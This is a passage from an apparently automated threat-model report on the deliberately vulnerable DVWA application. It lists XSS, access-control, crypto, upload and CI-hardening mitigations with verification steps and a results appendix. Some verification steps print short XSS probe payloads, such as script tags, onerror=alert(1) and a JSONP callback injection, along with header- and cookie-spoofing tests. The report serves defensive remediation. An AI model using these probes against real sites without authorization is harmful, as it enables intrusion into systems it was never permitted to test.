**Verification:** Run grep -`rnE` 'uses: [^ ]+@' .github/workflows/ | grep -vE '@[0-9a-f]{40}' and confirm that it returns no lines.

**Reference:** [GitHub Docs: Security Hardening For Github Actions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions)

---

<a id="m-061"></a>
#### M-061 — JSON-encode server values embedded

**Addresses:**

- 🟡 [F-057](#f-057) — Request URI reflected unescaped into inline script string

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/api/source/low.php:47`

**How:**

1. Build the base URL from a server-side constant instead of `REQUEST_URI`.
2. If a dynamic value is needed, emit it with `json_encode($v, JSON_HEX_TAG|JSON_HEX_APOS|JSON_HEX_QUOT)`.

**Verification:** Request the page with ?x=';`alert(1)`;// and confirm the rendered script contains no unescaped quote.

**Reference:** [OWASP Cheat Sheet: Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

---

<a id="m-062"></a>
#### M-062 — HTML-encode username before rendering

**Addresses:**

- 🟡 [F-058](#f-058) — Reflected XSS of username on brute-force login
- 🟡 [F-062](#f-062) — Reflected XSS of username in test credentials page

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/brute/source/low.php:21`

**How:**

1. Wrap \$user in `htmlspecialchars($user, ENT_QUOTES, 'UTF-8')` at every level.
2. Encode the avatar value before placing it in the img src attribute.
3. Wrap \$user in htmlspecialchars before interpolating it.
4. Use prepared statements for the query, and keep display encoding separate from SQL escaping.

**Verification:** Submit a username containing &lt;script&gt;`alert(1)`&lt;`/script`&gt; and confirm the response contains the encoded entities.

**Reference:** [OWASP Cheat Sheet: Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

---

<a id="m-063"></a>
#### M-063 — Encode or drop PHP_SELF in form action

**Addresses:**

- 🟡 [F-059](#f-059) — Reflected XSS

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/cryptography/source/low.php:56`

**How:**

1. Use action="", or `htmlspecialchars($_SERVER['SCRIPT_NAME'], ENT_QUOTES)`.
2. Apply the same fix in `medium.php`.

**Verification:** Request `index.php`/%22%3E%3Cscript%3Ealert(1)%3C/script%3E and confirm the output is encoded.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-064"></a>
#### M-064 — HTML-encode reflected input and tighten CSP

**Addresses:**

- 🟡 [F-060](#f-060) — Reflected script injection bypassing permissive CSP

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/csp/source/high.php:10`

**How:**

1. Encode reflected input with htmlspecialchars before adding it to the page.
2. Remove the CDN allowlist and the static nonce, use per-response random nonces, and hardcode the JSONP callback.

**Verification:** Run an automated test asserting that a submitted include value appears HTML-encoded in the response.

**Reference:** [OWASP: Xss](https://owasp.org/www-community/attacks/xss/)

---

<a id="m-065"></a>
#### M-065 — Validate JSONP callback against an identifier allowlist

**Addresses:**

- 🟡 [F-061](#f-061) — Unvalidated JSONP callback reflected into script response

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/csp/source/jsonp.php:12`

**How:**

1. Use a fixed callback name, as `jsonp_impossible.php` does, or reject any callback that does not match `^[A-Za-z_$][A-Za-z0-9_$]{0,63}$`.
2. Send `X-Content-Type-Options`: nosniff and move clients to `fetch()` with plain JSON instead of JSONP.

**Verification:** Request `jsonp.php`?`callback=alert`(1);// and confirm the server rejects it or returns the fixed callback name.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-066"></a>
#### M-066 — HTML-encode id before output

**Addresses:**

- 🟡 [F-063](#f-063) — Reflected XSS

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/view_source.php:85`

**How:**

1. Allowlist id values.
2. Apply htmlspecialchars to every echoed request value.

**Verification:** Request `view_source.php` with markup in id and confirm that it is rendered as encoded text.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-067"></a>
#### M-067 — HTML-encode reflected name with htmlspecialchars

**Addresses:**

- 🟡 [F-064](#f-064) — Reflected cross-site scripting

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/xss_r/index.php:51`

**How:**

1. Encode the name with `htmlspecialchars($name, ENT_QUOTES, 'UTF-8')` before appending it to \$html at every level.
2. Remove the X-XSS-Protection: 0 header and add a restrictive `Content-Security-Policy`.

**Verification:** Request ?name=&lt;img `src=x` `onerror=alert`(1)&gt; at each level and confirm the response contains &lt;img and no script executes.

**Reference:** [OWASP Cheat Sheet: Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

---

<a id="m-068"></a>
#### M-068 — HTML-encode the reflected name parameter

**Addresses:**

- 🟡 [F-065](#f-065) — Reflected name parameter rendered without HTML encoding

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/xss_r/source/low.php:8`

**How:**

1. Apply `htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8')` before concatenating it.
2. Remove the X-XSS-Protection: 0 header and add a restrictive `Content-Security-Policy`.

**Verification:** Request ?name=&lt;script&gt;`alert(1)`&lt;`/script`&gt; on the low level. The response must contain &lt;script&gt;.

---

<a id="m-069"></a>
#### M-069 — Encode guestbook fields on output with htmlspecialchars

**Addresses:**

- 🟡 [F-066](#f-066) — Stored XSS payloads accepted into guestbook entries

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/xss_s/source/low.php:16`

**How:**

1. In `dvwaGuestbook()`, HTML-encode the name and comment with `htmlspecialchars(..., ENT_QUOTES, 'UTF-8')` when rendering.
2. Replace the blacklist filters on name with encoding, and store the raw value through prepared statements.

**Verification:** Sign the guestbook with name &lt;img `src=x` `onerror=alert`(1)&gt; at each level and confirm it renders as literal text.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-070"></a>
#### M-070 — Log REMOTE_ADDR unless proxy is trusted

**Addresses:**

- 🟡 [F-067](#f-067) — Access log trusts client X-Forwarded-For as source IP

**Prevents CWEs:**

- [CWE-348](https://cwe.mitre.org/data/definitions/348.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/bac/source/high.php:92`

**How:**

1. Use `REMOTE_ADDR` by default, and honour X-Forwarded-For only when `REMOTE_ADDR` is in a configured trusted-proxy list.
2. Record the raw forwarded header separately, flagged as untrusted.

**Verification:** Send X-Forwarded-For: `1.2.3.4` directly to the app and confirm `bac_log.ip_address` stores the real client address.

**Reference:** [CWE-348](https://cwe.mitre.org/data/definitions/348.html)

---

<a id="m-071"></a>
#### M-071 — Stop exposing internal information to clients

**Addresses:**

- 🟡 [F-068](#f-068) — Legacy v1 user API discloses password hashes

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/api/src/User.php:45`

**How:**

1. Remove the password field from every `toArray` branch and reject unsupported API versions in `public/index.php`.
2. Require authentication for user listing endpoints.

**Verification:** Run curl `http://host/vulnerabilities/api/v1/user/` and confirm the response contains no password key, or that it returns 404.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

<a id="m-072"></a>
#### M-072 — Replace the weak cryptographic algorithm

**Addresses:**

- 🟡 [F-069](#f-069) — Repeating-key XOR used as message encryption

**Weaknesses addressed:** [W-008](#w-008)

**Prevents CWEs:**

- [CWE-327](https://cwe.mitre.org/data/definitions/327.html) - Use of a Broken or Risky Cryptographic Algorithm

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/low.php:35`

**How:**

1. Use `sodium_crypto_secretbox` or AES-256-GCM in place of `xor_this`.
2. Keep the key outside the source.

**Verification:** Encrypt the same message twice and confirm the ciphertexts differ and do not reveal the key when XORed with the plaintext.

**Reference:** [CWE-327: Use of a Broken or Risky Cryptographic Algorithm](https://cwe.mitre.org/data/definitions/327.html)

---

<a id="m-073"></a>
#### M-073 — Remove config backup from web root

**Addresses:**

- 🟡 [F-071](#f-071) — Config backup with DB credentials copied into web root

**Prevents CWEs:**

- [CWE-530](https://cwe.mitre.org/data/definitions/530.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `dvwa/includes/DBMS/MySQL.php:138`

**How:**

1. Delete the `copy()` of `config.inc.php` to .bak in setup.
2. Deny HTTP access to the config directory in Apache configuration.

**Verification:** After setup, GET `/config/config.inc.php.bak` and expect 403 or 404.

**Reference:** [CWE-530](https://cwe.mitre.org/data/definitions/530.html)

---

<a id="m-074"></a>
#### M-074 — Throttle by client and avoid hard per-user lockout

**Addresses:**

- 🟡 [F-072](#f-072) — Attacker-triggerable account lockout

**Prevents CWEs:**

- [CWE-645](https://cwe.mitre.org/data/definitions/645.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/brute/source/impossible.php:88`

**How:**

1. Throttle failed attempts by source IP or device fingerprint as well as by username.
2. Replace the hard lockout with progressive delays or a CAPTCHA challenge.

**Verification:** Send three failed logins for a user from one client and confirm the legitimate user can still log in from another client.

**Reference:** [CWE-645](https://cwe.mitre.org/data/definitions/645.html)

---

<a id="m-075"></a>
#### M-075 — Add least-privilege permissions blocks to every workflow

**Addresses:**

- 🟡 [F-073](#f-073) — Workflows lack explicit permissions block for GITHUB_TOKEN

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/docker-image.yml:10`

**How:**

1. Add top-level `permissions: {}` or `contents: read` to every workflow file.
2. Grant per-job only what is needed: packages: write for the docker build job, `security-events: write` for CodeQL and SARIF upload jobs.
3. Set the repository default workflow permission to read-only in repository settings.

**Verification:** Run `grep -L '^permissions:' .github/workflows/*.yml` and confirm it lists no files; check a run's '`GITHUB_TOKEN` Permissions' section shows only the granted scopes.

**Reference:** [GitHub Docs: Automatic Token Authentication](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#modifying-the-permissions-for-the-github_token)

---

<a id="m-077"></a>
#### M-077 — Allowlist help module ids and include safely

**Addresses:**

- 🟡 [F-077](#f-077) — Eval of help file chosen by request path

**Prevents CWEs:**

- [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/view_help.php:20`

**How:**

1. Validate id against the list of known modules and locale against known locales.
2. Replace eval of file contents with include of the validated path.

**Verification:** Request `view_help.php` with an id containing ../ and confirm a Not Found response.

**Reference:** [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

---

<a id="m-078"></a>
#### M-078 — Re-encode images and store under random names

**Addresses:**

- 🟡 [F-078](#f-078) — Image upload keeps original name without re-encoding

**Weaknesses addressed:** [W-016](#w-016)

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/upload/source/high.php:20`

**How:**

1. Re-encode uploaded images to strip any embedded content.
2. Store them under random names outside executable paths.

**Verification:** Upload an image containing appended text and confirm that the stored file no longer contains it.

**Reference:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

<a id="m-079"></a>
#### M-079 — Store security level server-side

**Addresses:**

- 🟡 [F-079](#f-079) — Security controls gated by client-controlled cookie

**Prevents CWEs:**

- [CWE-565](https://cwe.mitre.org/data/definitions/565.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `dvwa/includes/dvwaPage.inc.php:205`

**How:**

1. Store the security level in the server-side session or config, set only by authorized users.
2. Ignore the security cookie for selecting code paths.

**Verification:** Send Cookie `security=low` while session level is impossible and confirm impossible code path runs.

**Reference:** [CWE-565](https://cwe.mitre.org/data/definitions/565.html)

---

<a id="m-080"></a>
#### M-080 — Authorize against server-side session user

**Addresses:**

- 🟡 [F-080](#f-080) — Profile authorization trusts client user_id cookie

**Prevents CWEs:**

- [CWE-565](https://cwe.mitre.org/data/definitions/565.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/bac/source/low.php:33`

**How:**

1. Compare \$id with \$current_user_id derived from `dvwaCurrentUser()`, not with `$_COOKIE['user_id']`.
2. Use a prepared statement for the profile query.

**Verification:** Set the `user_id` cookie to 1 as a non-admin, request `user_id=1`, and confirm access is denied.

**Reference:** [CWE-565](https://cwe.mitre.org/data/definitions/565.html)

---

<a id="m-081"></a>
#### M-081 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟡 [F-081](#f-081) — IDOR guarded by static public token

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/bac/source/medium.php:26`

**How:**

1. Remove the static token check and require \$id == \$current_user_id, or an admin role read from the database.
2. Remove the hint comment from the response.

**Verification:** Request another user's ID with `token=user_token` and confirm access is denied.

**Reference:** [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)

---

<a id="m-083"></a>
#### M-083 — Re-check current roles and account status when a session or token is used

**Addresses:**

- 🟡 [F-100](#f-100) — User keeps using a withdrawn right

**Prevents CWEs:**

- [CWE-613](https://cwe.mitre.org/data/definitions/613.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/token_library_impossible.php:103`

**How:** Re-check current roles and account status when a session or token is used

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the security scan; the CWE-613 finding at `vulnerabilities/cryptography/source/token_library_impossible.php:103` is cleared, and the regression test passes.

---

### P4 — Backlog

_No P4 mitigations._

---

## 11. Out of Scope

### Not Covered by This Method

An automated, AI-assisted threat model built from the repository's source code and configuration - static analysis only, no dynamic or penetration testing. It models the system as built rather than as designed. It does not replace a threat-modeling session with the team: business context, design intent, runtime behaviour and production configuration are not covered, and each finding still needs confirmation in the deployed system.

- Design intent and the reasoning behind it - no design documents, ADRs or workshop context are read.
- Business processes and user journeys that leave the code.
- Runtime behaviour, deployment topology and production-only configuration.
- External and organizational controls.

Treat this report as review input, not sign-off.

### Excluded from This Assessment

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities
- Opt-in threat actors, not assessed: malicious insiders with repository or pipeline access; malicious insiders with production access; attackers holding a user's device. Enable them with `enable:` in `.appsec/actors.yaml`.

---

<a id="appendix-verification-items"></a>
## Appendix: Verification Items

Verification checks fixed security properties item by item (catalog version 6). Results per item and component in this run: 12 findings · 1 controls · 4 no finding · 8 undecidable · 77 not applicable. A control means that the examined code enforces the property at every place it applies; a partial, undecidable or no-finding result is never a control, and neither is an item this run did not examine.

### Results that need attention

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="34%" style="width:34%"><col width="20%" style="width:20%"><col width="17%" style="width:17%"><col width="29%" style="width:29%"></colgroup>
<thead><tr><th>Verification item</th><th>Where</th><th>Result</th><th>Findings</th></tr></thead>
<tbody>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-input-03"></a><a href="#tc-input-03">TC-INPUT-03</a> Input cannot reach OS commands, code evaluation, or template compilation</td><td style="overflow-wrap:break-word;background:none">DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">Fails at 9 of 15 locations<br/>Protection found at 6 locations (model review only)</td><td style="overflow-wrap:break-word;background:none">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-004">F-004</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-076">F-076</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authn-04"></a><a href="#tc-authn-04">TC-AUTHN-04</a> Passwords are strong and stored with an adaptive hash</td><td style="overflow-wrap:break-word;background:none">DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">Fails at 9 of 9 locations</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-002">F-002</a></span>, <span style="white-space:nowrap"><a href="#f-009">F-009</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-054">F-054</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-input-04"></a><a href="#tc-input-04">TC-INPUT-04</a> Output is encoded for its context, including DOM sinks</td><td style="overflow-wrap:break-word;background:none">DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">Fails at 6 of 10 locations<br/>Protection found at 2 locations (model review only)<br/><em>model review only</em></td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-011">F-011</a></span>, <span style="white-space:nowrap"><a href="#f-013">F-013</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-065">F-065</a></span><br/>🟢&nbsp;1 not reported</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-file-01"></a><a href="#tc-file-01">TC-FILE-01</a> File paths stay within intended directories and files are served only as intended</td><td style="overflow-wrap:break-word;background:none">DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">Fails at 9 of 11 locations<br/>Protection found at 2 locations (model review only)<br/><em>model review only</em></td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-028">F-028</a></span>, <span style="white-space:nowrap"><a href="#f-032">F-032</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-076">F-076</a></span><br/>🟢&nbsp;1 not reported</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-file-02"></a><a href="#tc-file-02">TC-FILE-02</a> Uploads and archives are type-checked, size-limited, and extracted safely</td><td style="overflow-wrap:break-word;background:none">DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">Fails at 7 of 15 locations<br/>Protection found at 8 locations (model review only)</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-035">F-035</a></span>, <span style="white-space:nowrap"><a href="#f-036">F-036</a></span><br/>🟢&nbsp;1 not reported</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authn-05"></a><a href="#tc-authn-05">TC-AUTHN-05</a> Recovery, re-authentication, and login responses resist takeover and enumeration</td><td style="overflow-wrap:break-word;background:none">DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 2 locations<br/>Protection found at 1 location (model review only)</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-006">F-006</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-data-03"></a><a href="#tc-data-03">TC-DATA-03</a> Secrets are not embedded in code, client bundles, or deployment files</td><td style="overflow-wrap:break-word;background:none">CI/CD Pipeline</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 2 locations<br/>Protection found at 1 location (model review only)</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-027">F-027</a></span></td></tr>
</tbody>
</table>

<details><summary>5 more results without Critical or High findings</summary>
<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="34%" style="width:34%"><col width="20%" style="width:20%"><col width="17%" style="width:17%"><col width="29%" style="width:29%"></colgroup>
<thead><tr><th>Verification item</th><th>Where</th><th>Result</th><th>Findings</th></tr></thead>
<tbody>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authn-07"></a><a href="#tc-authn-07">TC-AUTHN-07</a> Credentials and tokens travel only by secure authentication methods</td><td style="overflow-wrap:break-word;background:none">DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">Fails at 4 of 5 locations<br/>Protection found at 1 location (model review only)</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-046">F-046</a></span>, <span style="white-space:nowrap"><a href="#f-052">F-052</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-supply-01"></a><a href="#tc-supply-01">TC-SUPPLY-01</a> Build inputs are pinned and locked</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 3 of 3 rules</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-055">F-055</a></span>, <span style="white-space:nowrap"><a href="#f-056">F-056</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-infra-01"></a><a href="#tc-infra-01">TC-INFRA-01</a> Containers and pods run with least privilege</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 1 of 5 rules</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-074">F-074</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-ci-01"></a><a href="#tc-ci-01">TC-CI-01</a> Workflows run with least-privilege tokens</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 1 of 2 rules</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-075">F-075</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-supply-04"></a><a href="#tc-supply-04">TC-SUPPLY-04</a> Released artifacts are signed and described by an SBOM</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 1 of 1 rule</td><td style="overflow-wrap:break-word;background:none">–</td></tr>
</tbody>
</table>
</details>

*Model review only: neither a fixed check nor the evidence review confirmed the whole result. 🟢 not reported: findings below the report threshold, see [§11](#11-out-of-scope).*

### Not decided

These items have no result for the named component. They are neither findings nor controls.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="40%" style="width:40%"><col width="28%" style="width:28%"><col width="32%" style="width:32%"></colgroup>
<thead><tr><th>Verification item</th><th>Where</th><th>Why it stayed open</th></tr></thead>
<tbody>
<tr><td rowspan="2" style="overflow-wrap:break-word;background:none"><a id="tc-data-02"></a><a href="#tc-data-02">TC-DATA-02</a> Sensitive data is protected at rest</td><td style="overflow-wrap:break-word;background:none">CI/CD Pipeline</td><td style="overflow-wrap:break-word;background:none">1 of 1 location: the control would lie outside the examined sources</td></tr>
<tr><td style="overflow-wrap:break-word;background:none">MariaDB Database<br/>DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">No location found, model not run</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authz-05"></a><a href="#tc-authz-05">TC-AUTHZ-05</a> Authorization the client interface implies is enforced on the server</td><td style="overflow-wrap:break-word;background:none">DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">No location found, model not run</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a href="#tc-data-03">TC-DATA-03</a> Secrets are not embedded in code, client bundles, or deployment files</td><td style="overflow-wrap:break-word;background:none">MariaDB Database<br/>DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">No location found, model not run</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-data-04"></a><a href="#tc-data-04">TC-DATA-04</a> Data in transit is encrypted and kept out of URLs</td><td style="overflow-wrap:break-word;background:none">MariaDB Database<br/>DVWA Web Application</td><td style="overflow-wrap:break-word;background:none">No location found, model not run</td></tr>
</tbody>
</table>

### Controls evidenced

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="58%" style="width:58%"><col width="20%" style="width:20%"><col width="22%" style="width:22%"></colgroup>
<thead><tr><th>Verification item</th><th>Where</th><th>Result</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a id="tc-input-05"></a><a href="#tc-input-05">TC-INPUT-05</a> Outbound requests cannot be steered to unintended destinations</td><td style="overflow-wrap:break-word">DVWA Web Application</td><td style="overflow-wrap:break-word">Holds at 1 of 1 location<br/><em>model review only</em></td></tr>
</tbody>
</table>

### Other items

Other outcomes by component, plus items this run did not examine. No finding does not prove a control.

- **AuthNRoutes** — Not examined: <a id="tc-authn-01"></a>TC-AUTHN-01 Sensitive routes, operations, and channels require authentication
- **AuthN** — Not applicable for all components: <a id="tc-authn-02"></a>TC-AUTHN-02 Tokens are verified with a pinned algorithm and a server-held key, <a id="tc-authn-03"></a>TC-AUTHN-03 Token expiry, issuer, and audience are validated, <a id="tc-authn-06"></a>TC-AUTHN-06 SSO and OAuth sign-in binds each response to its request and validates the identity it receives; Not applicable: TC-AUTHN-04 (MariaDB Database, CI/CD Pipeline), TC-AUTHN-05 (MariaDB Database, CI/CD Pipeline), TC-AUTHN-07 (MariaDB Database, CI/CD Pipeline)
- **SessionMgmt** — Not examined: <a id="tc-session-01"></a>TC-SESSION-01 Session tokens are protected in storage, transport, lifetime, and logout
- **AuthZ** — Not applicable for all components: <a id="tc-authz-01"></a>TC-AUTHZ-01 Object access checks the owner, <a id="tc-authz-02"></a>TC-AUTHZ-02 Privileged operations check the role or permission, <a id="tc-authz-03"></a>TC-AUTHZ-03 Request bodies cannot set privileged fields, <a id="tc-authz-04"></a>TC-AUTHZ-04 Tenant data stays isolated, <a id="tc-authz-06"></a>TC-AUTHZ-06 Callers cannot read or change data beyond their rights; Not applicable: TC-AUTHZ-05 (MariaDB Database, CI/CD Pipeline)
- **InputVal** — Not applicable for all components: <a id="tc-input-01"></a>TC-INPUT-01 Database queries are parameterized, <a id="tc-input-02"></a>TC-INPUT-02 NoSQL predicates are not built from input, <a id="tc-input-06"></a>TC-INPUT-06 Parsers reject external entities and unsafe deserialization, <a id="tc-input-07"></a>TC-INPUT-07 Input cannot take control of what the server executes, stores, or reaches; Not applicable: TC-INPUT-03 (MariaDB Database, CI/CD Pipeline), TC-INPUT-04 (MariaDB Database, CI/CD Pipeline), TC-INPUT-05 (MariaDB Database, CI/CD Pipeline), TC-FILE-01 (MariaDB Database, CI/CD Pipeline), TC-FILE-02 (MariaDB Database, CI/CD Pipeline)
- **DataProt** — Not applicable for all components: <a id="tc-data-01"></a>TC-DATA-01 Responses contain only intended fields, <a id="tc-data-05"></a>TC-DATA-05 Sensitive data cannot reach anyone not entitled to it; No finding, no control: TC-DATA-04 (CI/CD Pipeline)
- **Crypto** — Not examined: <a id="tc-crypto-01"></a>TC-CRYPTO-01 Cryptographic primitives are current and not hand-rolled, <a id="tc-crypto-02"></a>TC-CRYPTO-02 Secrets and tokens use cryptographic randomness and are not derived from public data
- **FrontendSec** — Not examined: <a id="tc-front-01"></a>TC-FRONT-01 Browser protections are configured: CSP, framing, CORS, subresource integrity, message origins, <a id="tc-mobile-01"></a>TC-MOBILE-01 Mobile WebViews and inter-process interfaces do not expose privileged functions
- **Audit** — Not examined: <a id="tc-audit-01"></a>TC-AUDIT-01 Security-relevant actions are logged, and logs and errors do not leak data
- **Availability** — Not examined: <a id="tc-avail-01"></a>TC-AVAIL-01 Expensive and authentication endpoints are rate-limited and input-driven work is bounded
- **BusinessLogic** — Not examined: <a id="tc-logic-01"></a>TC-LOGIC-01 Business values and workflow order are decided on the server
